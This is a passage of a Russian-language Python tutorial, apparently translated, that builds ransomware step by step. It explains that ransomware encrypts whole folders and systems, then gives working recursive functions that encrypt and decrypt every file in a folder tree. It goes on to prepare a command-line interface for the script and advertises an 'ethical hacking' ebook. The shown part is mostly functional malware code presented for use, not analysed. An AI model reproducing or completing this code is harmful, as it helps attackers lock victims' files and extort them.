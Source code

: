Опять же, две вышеуказанные функции были взяты из учебника по шифрованию.

Получите: Создайте более 35 этических хакерских инструментов и скриптов с помощью python EBook.

Шифрование и расшифровка папок
Замечательно! Прежде чем тестировать наши функции, мы должны помнить, что программы-вымогатели шифруют целые папки или даже всю компьютерную систему, а не только один файл.

Поэтому мы должны написать код для шифрования папок с их подпапками и файлами. Начнем с шифрования папок:

def encrypt_folder(foldername, key):
    # if it's a folder, encrypt the entire folder (i.e all the containing files)
    for child in pathlib.Path(foldername).glob("*"):
        if child.is_file():
            print(f"[*] Encrypting {child}")
            # encrypt the file
            encrypt(child, key)
        elif child.is_dir():
            # if it's a folder, encrypt the entire folder by calling this function recursively
            encrypt_folder(child, key)
Не так уж и сложно; мы используем метод glob() из класса Path() модуля pathlib для получения всех вложенных папок и файлов в этой папке. Это то же самое, что и os.scandir(), за исключением того, что pathlib возвращает объекты Path, а не обычные строки Python.

Внутри цикла for мы проверяем, является ли этот объект дочернего пути файлом или папкой. Мы используем нашу ранее определенную функцию encrypt(), если это файл. Если это папка, мы рекурсивно запускаем encrypt_folder(), но передаем дочерний путь в аргумент foldername.

То же самое для расшифровки папок:

def decrypt_folder(foldername, key):
    # if it's a folder, decrypt the entire folder
    for child in pathlib.Path(foldername).glob("*"):
        if child.is_file():
            print(f"[*] Decrypting {child}")
            # decrypt the file
            decrypt(child, key)
        elif child.is_dir():
            # if it's a folder, decrypt the entire folder by calling this function recursively
            decrypt_folder(child, key)
Это здорово! Теперь все, что нам нужно сделать, это использовать модуль argparse, чтобы сделать наш скрипт максимально удобным для использования из командной строки:
